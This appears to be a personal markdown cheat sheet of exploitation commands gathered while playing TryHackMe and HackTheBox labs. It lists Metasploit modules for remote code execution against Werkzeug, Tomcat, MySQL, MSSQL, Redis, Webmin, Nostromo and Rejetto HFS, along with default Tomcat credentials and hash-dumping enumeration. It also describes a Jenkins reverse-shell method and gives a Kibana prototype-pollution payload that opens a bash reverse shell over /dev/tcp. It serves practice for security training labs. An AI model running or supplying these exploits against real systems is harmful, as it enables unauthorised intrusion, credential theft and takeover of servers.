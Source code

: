 # Exploits


A quick cheat sheet on exploits I have found while playing thm/htb etc.

## Werkzeug

```use multi/http/werkzeug+debug_rce```

Gives root

## Apache tomcat manager vuln

prereq

First check that /manager directory is there

```use mult/handler/tomcat_mgr_upload```

default user: tomcat
default password: s3cret

user tomcat

priv

check in ```conf``` directory (might be zipped) and check ```tomcat-users.xml```

## Apache tomcat ghostcat

Check for ajp service running.

Can read sensistive info

```use admin/http/tomcat_ghostcat```

## MySQL

enum with Metasploit

```
use admin/mysql/mysql_enum
use auxiliary/scanner/mysql_version
use scanner/mysql/mysql_hashdump
```

enum with nmap

```nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>```

connect diectly

```
mysql -h <ip> -u <user> -p <password>

SHOW databases;
use <database>
SELECT user,password FROM mysql.user
```

rce

```
use multi/mysql/mysql_udf_payload

set FORCE_UDF_UPLOAD true (needs for the RCE)
set target (default is windows)

may try and open up two meterpreter sessions. cntrl + c to cancel and there should be one meterpreter session
```


## MSSQL

enum with nmap

```nmap --script-args mssql.instance-port=1433,mssql.username=<username (default is sa>,mssql.password=<password>,mssql.instance-name<mssqlserver> -sV -p 1433 --script=ms-sql-brute,ms-sql-dump-hashes,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-empty-password,ms-sql-info <ip>```

enum with metasploit

```
use admin/mssql/mssql_enum
use scanner/mssql/mssql_ping
use scanner/mssql/mssql_login
```

connect directly

```
mssqlclient.py <user>@<ip>

SELECT * FROM information_schema.tables
SELECT name FROM master.dbo.sysdatabases
```

rce

```use windows/mssql/mssql_payload```


## osCommerce2_3_4

```
use multi/script/web_delivery
set payload payload/windows/meterpreter/reverse_http
```

## Nostromo 1.9.6

```use /multi/http/nostromo_code_exec```

## Webmin 1.580

```use unix/webapp/webmin_show_cgi_exec```

## REdis

enum with metasploit

```use gather/redis_extractor```

rce

```use linux/redis/redis_replication_cmd_exec```


## rsync

enum rsync

```
rsync -dt rsync://rsync-connector@<IP>:<port>/<dir>
rsync -a rsync://rsync-connector@<IP>:<port> <dir to save into>
```

with metasploit
```use scanner/rsync/modules_list```

## Jenkins

To get a shell.

Build a new project (new item, freestyle). Then on the build option click windows batch command and put in a powershell reverse shell with a listener

## Kibana

To get a shell

1. Load Kibana
2. Go to Timelion
3. Start listerner
4. Enter the following payload

``` 
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/<ip of machine>/6666 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

## Rejetto HttpFileServer

```use windows/http/rejetto_hfs_exec```